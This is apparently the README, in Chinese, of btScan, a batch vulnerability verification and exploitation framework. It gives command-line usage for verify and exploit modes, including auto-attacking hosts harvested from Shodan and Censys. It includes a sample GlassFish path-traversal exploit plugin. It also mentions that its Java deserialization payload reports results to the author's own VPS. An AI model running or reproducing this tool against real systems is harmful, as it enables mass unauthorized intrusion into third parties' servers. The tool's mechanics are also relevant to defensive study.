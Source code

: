 ##目录结构

    --lib 核心文件库

    --report 报告生成的文件夹

    --node 里面每一个py文件是一个攻击向量，添加扫描节点也是向里面添加文件

    --crawl 通过空间搜索引擎抓取url或者ip的脚本
    

##使用方法
    python btScan.py
    usage: btScan.py [options]
    
    * batch vulnerability verification and exploition framework. *
    By he1m4n6a
    
    optional arguments:
      -h, --help   show this help message and exit
      -t THREADS   Num of scan threads for each scan process, 20 by default
      -m MODE      select mode [config|script]
                   e.g. -m script
      -n NAME      from node floder choose a script
      -c COMMAND   give an instruction when use script mode [verify|exploit]
                   e.g. -c verify
      -u URL_FILE  input url file
      -i IP_FILE   input ip file
      -autoIP      get ip from space search engine and auto attack
      -autoURL     get url from space search engine and auto attack
      -v           show program's version number and exit

脚本存在两种验证模式，一种是通过加载模块，另一种是通过配置文件。复杂的可以通过加载脚本，简单的通过加载配置文件即可。然后攻击也有两种模式，验证verify模式和攻击exploit模式。 你也可以指定ip或者url作为输入格式，也可以自动获取ip或者url，那就是配合crawl文件下的网络空间抓取模块。

**示例**
```
python btscan.py -n joomla -m script -c verify -u url.txt
-n 指定node文件夹下的joomla.py，-m指定为script模式，即指定加载模块的模式。-c指定模式为验证，仅为验证就好了，-u指定输入为url的模式。
```
```
python btscan.py -n joomla -m script -c exploit -u url.txt
同上，只是指定为攻击模式。
```
```
python btscan.py  -m config -c verify -i ip.txts
-m指定为config模式，-c指定为验证模式，-i指定输入的为ip模式，仅需通过conf目录下的scan_rule.ini的配置就够了。
```


##插件编写规则

仅需要在node文件夹下新增一个py文件

py文件中重要的有两个函数verify和exploit函数，没有exploit攻击模式，仅需要verify函数，返回值有三个值，第一个值是返回是否存在漏洞，返回True或者False；第二个值是返回url，第三个值返回需要打印的信息。

***示例(glassfish.py为例)***

```
#!/usr/bin/env python
#coding=utf8

import requests

def verify(ip):
    url = 'https://' + str(ip) + ':4848//theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/'
    try:
        r = requests.get(url, verify=False, timeout=5)
        if 'ejb-timer-service-app' in r.text:
            msg = 'vul'
            return True, ip, msg
	else:
            msg = 'safe'
            return False, ip, msg
    except Exception, e:
        #msg = str(e)
	msg = 'safe'
        return False, ip, msg


def exploit(ip):
    verify(ip)
```
上面函数都可以自己定义，主要是verfiy和exploit函数，如果exploit函数和verify函数一样，exploit函数里面只要简单的调用verify(url)即可。

##其他

crwal文件夹的NetSearch.py里面的shadon和censys模块的密钥要自己填上。
java反序列化的payload要自行更改，不然结果是发送到我的vps上。

有任何交流和问题可以联系我he1m4n6a@163.com
